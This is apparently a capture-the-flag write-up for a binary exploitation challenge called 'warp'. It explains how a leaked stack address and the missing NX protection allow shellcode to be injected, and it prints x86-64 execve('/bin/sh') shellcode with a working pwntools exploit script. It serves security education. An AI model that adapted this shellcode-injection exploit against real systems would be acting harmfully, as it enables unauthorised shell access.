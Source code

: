 As we can see, the program prints us a stack address, takes in an address as an input and execute code at our inputted address.

### Solving the challenge

Trivially, with the NX protections disabled, we can simply put shellcode _(assembly code that gives us a shell)_ on the stack, and then jump to it. We can do this using a **sys_execve** syscall.

Refer to this [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), to see the arguments that we have to populate for a **sys_execve** syscall.

- **SYS\_EXECVE**
    - **RAX**: 0x3b
    - **RDI**: char* filename
    - **RSI**: char* argv[]
    - **RDX**: char* envp[]

Ultimately, we want to write assembly to do the following `sys_execve(0x3b, "/bin/sh", 0, 0)`

```sh
# put our /bin/sh string on the stack
mov rbx, 0x68732f6e69622f
push rbx
# move /bin/sh pointer to RDI
mov rdi, rsp

# populate argv and envp arguments
xor esi, esi  # RSI = 0
xor edx, edx  # RDX = 0

# make our execve syscall
mov ax, 0x3b
syscall
```

Finally, we can put all this in a pwntools script and solve the challenge.

```py
from pwn import *

context.arch = "amd64"
p = process("./warp")

sc = asm("""
mov rbx, 0x68732f6e69622f
push rbx
mov rdi, rsp
xor esi, esi
xor edx, edx
mov ax, 0x3b
syscall
""")

p.recvuntil(b"POSITION: ")
stack_leak = int(p.recvline(), 16)

p.sendline(hex(stack_leak + 8 + 15).encode() + b" " + sc)  # 8+15 is padding to the shellcode

p.interactive()
```
